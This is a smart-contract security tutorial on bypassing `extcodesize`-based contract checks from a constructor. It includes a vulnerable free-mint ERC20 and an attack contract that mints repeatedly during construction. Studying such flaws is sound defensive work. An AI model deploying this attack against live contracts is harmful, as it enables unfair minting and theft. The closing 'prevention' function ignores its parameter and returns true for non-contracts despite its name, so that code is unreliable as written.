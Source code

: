 ```yaml
---
title: Bypass Contract Check
displayed_sidebar: generalSidebar
---
```


Many free-mint projects utilize the `isContract()` method to limit access to external accounts (EOAs) and restrict contract addresses. This method leverages `extcodesize` to determine the runtime `bytecode` length of an address. If it is greater than zero, the address is deemed a contract; otherwise, it is considered an EOA.

```solidity
    // Using extcodesize to check if an address is a contract
    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

However, a vulnerability exists because, during contract creation, the runtime `bytecode` has not yet been stored at the address, so the `bytecode` length is zero. If we place our logic within the constructor, we can bypass the `isContract()` check.

**Example of the Vulnerability**

In the example below, `FreemintERC20` contract uses the `checkContract()` function to prevent contract addresses from executing its `mintTokens()` function, which is intended to prevent automated bulk minting. Each call to `mintTokens()` mints 100 tokens.

```solidity
// Using extcodesize to check if an address is a contract
contract FreemintERC20 is ERC20 {
    constructor() ERC20("Token", "TKN") {}

    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function can only be called by non-contract addresses (vulnerable)
    function mintTokens() public {
        require(!checkContract(msg.sender), "Contracts are not allowed!");
        _mint(msg.sender, 100);
    }
}
```

We create an attack contract that calls `mintTokens()` multiple times during its constructor to mint `1000` tokens:

```solidity
// Exploiting constructor characteristics for attacks
contract AttackContract {
    bool public detectedAsContract;
    address public targetContract;

    // During contract creation, extcodesize is 0, thus bypassing isContract() checks.
    constructor(address addr) {
        targetContract = addr;
        detectedAsContract = FreemintERC20(addr).checkContract(address(this));
        for(uint i; i < 10; i++){
            FreemintERC20(addr).mintTokens();
        }
    }

    // After contract deployment, extcodesize > 0, isContract() will detect
    function tryMint() external {
        FreemintERC20(targetContract).mintTokens();
    }
}
```

In this contract, calling `mintTokens()` within the constructor will bypass the `isContract()` check successfully and mint the tokens. The state variable `detectedAsContract` will be set to `false` in the constructor. After deployment, the `runtime bytecode` is stored at the contract address, and `extcodesize > 0`, thus `checkContract()` will successfully block the minting when calling `mintTokens()`.

**Prevention Methods**

We can use `(tx.origin == msg.sender)` to determine if the caller is a contract. If the caller is an EOA, then `tx.origin` and `msg.sender` will be equal; if they are not equal, the caller is a contract.

```solidity
function realContractCheck(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```
